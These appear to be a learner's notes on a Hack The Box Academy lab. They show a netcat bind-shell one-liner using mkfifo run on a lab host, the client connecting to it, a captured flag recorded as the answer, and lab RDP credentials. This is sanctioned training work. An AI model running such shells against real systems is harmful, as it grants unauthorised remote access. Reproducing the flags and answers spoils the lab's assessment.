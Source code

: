 Server:

```
┌──(kali㉿kali)-[~]
└─$ sudo ssh htb-student@10.129.201.134
[sudo] password for kali: 
The authenticity of host '10.129.201.134 (10.129.201.134)' can't be established.
ED25519 key fingerprint is SHA256:HfXWue9Dnk+UvRXP6ytrRnXKIRSijm058/zFrj/1LvY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.201.134' (ED25519) to the list of known hosts.
htb-student@10.129.201.134's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-88-generic x86_64)

(...)

htb-student@ubuntu:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.201.134 7777 > /tmp/f
```

Client (kali):

```
┌──(kali㉿kali)-[~/HTB/FileTransfers/winFileTransferMethods]
└─$ nc -nv 10.129.201.134 7777
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 10.129.201.134:7777.
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

htb-student@ubuntu:~$ cat /customscripts/flag.txt
cat /customscripts/flag.txt
B1nD_Shells_r_cool
```

**Answer:** `B1nD_Shells_r_cool`

---
## 
### Question 1:
![](./attachments/Pasted%20image%2020230130123501.png)

**Answer:** `Client`

### Question 2:
![](./attachments/Pasted%20image%2020230130123509.png)
*Hint: ###### use this string to connect with xfreerdp to the host : xfreerdp /v: "target IP address" /u:htb-student /p:HTB_@cademy_stdnt!*
